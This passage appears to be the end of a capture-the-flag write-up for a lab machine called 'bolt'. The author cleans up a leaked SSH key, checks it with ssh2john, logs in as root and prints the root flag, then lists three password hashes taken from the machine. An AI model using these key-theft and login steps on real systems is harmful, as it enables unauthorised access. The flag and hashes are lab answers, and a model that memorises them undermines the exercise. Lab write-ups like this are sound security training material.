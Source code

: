 And indeed we find a key. We must clean it up but we have it. There is one thing to be careful with. Indeed, using vim we can remove the repeating strings with `:%s/key to remove//`, However, on the 5<sup>th</sup> line from the bottom, the one that is not the same length, we need to add a `/` ad the beginning as it is fused with that `/` of the directory. I won't admit how long it took me to realise this.

I, by habit, tried to crack the key, but it is not passphrase protected. So we can directly login with ssh

```sh
#python2 /usr/share/john/ssh2john.py id_rsa 
id_rsa has no password!
#ssh -i id_rsa 10.10.10.159
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Thu Apr  2 21:47:58 UTC 2020

  System load:  0.07              Users logged in:                0
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 29%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    157
Last login: Mon Oct 21 09:53:48 2019
root@bolt:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bolt:~# cat root.txt 
ntrkzgnkotaxyjv0ntrinda4yzbkztgw
```

Done !

G

root hash

$6$tBgQhcnm$9LkMBpvqFk8yk2WbvQYSiZdvA6k0w3b3lfcdJzTE5BrGm5b/IyEfFD5HskZ3Z35yhrj9hbyrhbFELzzQa5ldP0

git:$6$u.ix2wsI$11gn1OZX8UIFodXK.egLdYBI7e7tvsOjJa2Nc98SbZOcqISdUwWFzeJAliORbhL8dVOtHh2BN3sTix.jGpsI21:18177:0:99999:7:::

bolt:$6$MbEsG45E$GwigsJKeDuECWa.fnc5yfN0ahJOYYU9RuQ044xQlmt7blReerywj4EQoVyrElU1XgUzqunQ5ZAPoL1/V7KRXG1:18044:0:99999:7:::

